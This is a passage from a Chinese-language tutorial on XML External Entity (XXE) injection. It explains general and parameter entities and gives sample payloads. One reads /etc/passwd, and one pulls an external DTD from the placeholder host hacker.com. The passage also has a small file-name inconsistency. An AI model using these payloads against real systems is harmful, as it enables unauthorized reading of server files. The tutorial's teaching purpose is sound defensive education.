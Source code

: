 ```
<!DOCTYPE foo [<!ELEMENT foo ANY>

    <!ENTITY xxe SYSTEM "file:///etc/passwd">

]>

<foo>&xxe;</foo>
```

声明实体 xxe，用于读取 /etc/passwd 文件，然后通过 &xxe; 来引用执行。

**（2）参数实体**声明主要用于后续使用，与普通实体不同的是，它中间有百分号字符（%），其声明格式如下：

复制代码

```
<!ENTITY % 实体名称 "实体的值">

或者

<!ENTITY % 实体名称 SYSTEM "URI">
```

举个例子：

复制代码

```
<!DOCTYPE foo [

  	<!ENTITY  % xxe SYSTEM "http://hacker.com/evil.dtd" >

  	%xxe;

]>

<root>

  	<name>&evil;</name>

</root>
```

xxe.dtd 内容如下：

复制代码

```
<!ENTITY evil SYSTEM "file:///etc/passwd">
```

上面先声明 xxe 参数实体，引入外部实体 "http://hacker.com/evil.dtd"，里面声明了一个叫 evil 的实体，用于读取 /etc/passwd 文件，最后在通过 &evil; 来引用执行。
在不同的语言中其支持协议还不一样，需要根据业务场景来实测，常见的协议有 file、http、ftp、https、except 等等。

### 危害：XXE 的常见攻击手段
